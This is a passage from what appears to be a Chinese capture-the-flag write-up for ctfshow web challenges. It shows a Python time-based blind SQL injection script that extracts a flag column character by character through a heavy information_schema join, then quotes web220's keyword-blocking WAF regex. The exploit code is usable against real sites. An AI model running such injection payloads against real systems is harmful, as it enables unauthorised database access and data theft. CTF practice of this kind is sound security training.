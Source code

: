 ```python
        # payload = "select column_name from information_schema.columns where table_name='ctfshow_flagxca' limit 1,1"
        payload = "select flagaabc from ctfshow_flagxca"

        data = {
            'ip': f"1) or if(ascii(substr(({payload}),{i},1))>{mid},(select count(*) from information_schema.columns A, information_schema.columns B),1)#",
            'debug': '1'
        }
        try:
            # 发送POST请求，设置超时时间为1秒
            r = requests.post(url, data=data, timeout=0.15)
            # 如果请求在1秒内返回，说明当前位置字符的ASCII码小于等于中间值
            time.sleep(0.2)
            tail = mid
        except requests.exceptions.Timeout:
            # 如果请求超时，说明当前位置字符的ASCII码大于中间值
            time.sleep(0.2)
            head = mid + 1
        except Exception as e:
            time.sleep(0.2)
            print(f"An unexpected error occurred: {e}")
            break

    if head != 32:
        # 如果找到有效的字符，将其添加到结果字符串中
        result += chr(head)
    else:
        # 如果没有找到有效字符，退出循环
        break

    print("[*]Result : "+result)


```



#### web220

```
查询语句

       where id = ($id);
      
返回逻辑

    //屏蔽危险分子
    function waf($str){
        return preg_match('/sleep|benchmark|rlike|ascii|hex|concat_ws|concat|mid|substr/i',$str);
    }   
      
```
